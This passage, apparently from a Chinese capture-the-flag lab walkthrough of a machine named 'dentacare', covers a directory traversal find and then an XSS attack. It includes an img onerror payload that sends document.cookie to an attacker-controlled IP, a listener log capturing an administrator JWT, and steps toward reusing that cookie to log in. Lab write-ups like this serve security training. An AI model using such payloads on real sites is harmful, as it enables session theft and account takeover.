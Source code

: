 ```apl
green
admin
tom
mark
mark
patrick
lvan
dentacare
```

然后找到了目录`/opt/appli/env/lib/python3.11/site-packages/flask/app.py`：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405282101687.png" alt="image-20240528194649962" style="zoom:33%;" />

还发现了一个目录穿越：

![image-20240528191217507](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405282101688.png)

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405282101689.png" alt="image-20240528191249822" style="zoom:50%;" />

但是其他的文件无法进行配置读取。可以参考`zeug`靶场，尝试进行破解，但是我这边偷看了一下wp发现不是这个思路（这个思路下的靶机可能需要重新导入靶机，修改mac地址，否则即使可以rce也出不来，所以我就偷看了一下）

### XSS进行利用（正确思路）

这确实没想到：

![image-20240528193550258](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405282101690.png)

尝试[窃取cookie](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#retrieve-cookies)：

```bash
<img src=x onerror=this.src="http://172.20.10.8:8888/?c="+document.cookie>
```

然后接收，耐心等待一会即可收到：

```bash
┌──(kali💀kali)-[~/temp/dentacare]
└─$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
172.20.10.4 - - [28/May/2024 07:50:03] "GET /?c=Authorization=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJpc3MiOiJEZW50YUNhcmUgQ29ycG9yYXRpb24gIiwiaWF0IjoxNzEyNTc0NTEyLCJleHAiOjE3NDQxMTA1MTIsImF1ZCI6ImRlbnRhY2FyZS5obXYiLCJzdWIiOiJoZWxwZGVza0BkZW50YWNhcmUuaG12IiwiR2l2ZW5OYW1lIjoiUGF0cmljayIsIlN1cm5hbWUiOiJQZXRpdCIsIkVtYWlsIjoiYWRtaW5AZGVudGFjYXJlLmhtdiIsIlJvbGUiOlsiQWRtaW5pc3RyYXRvciIsIlByb2plY3QgQWRtaW5pc3RyYXRvciJdfQ.FIMxmUCOL3a4ThN5z-7VDN8OxBK7W0krHlcVktAiZtx3KXSQsbno1q1MRUL9JMPTJeqoTr-bRL2KWyr5Kv7JnQ HTTP/1.1" 200 -
```

### 替换cookie登录

尝试进行替换`cookie`登录之前那个`8000`端口：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405282101692.png" alt="image-20240528195456197" style="zoom:50%;" />
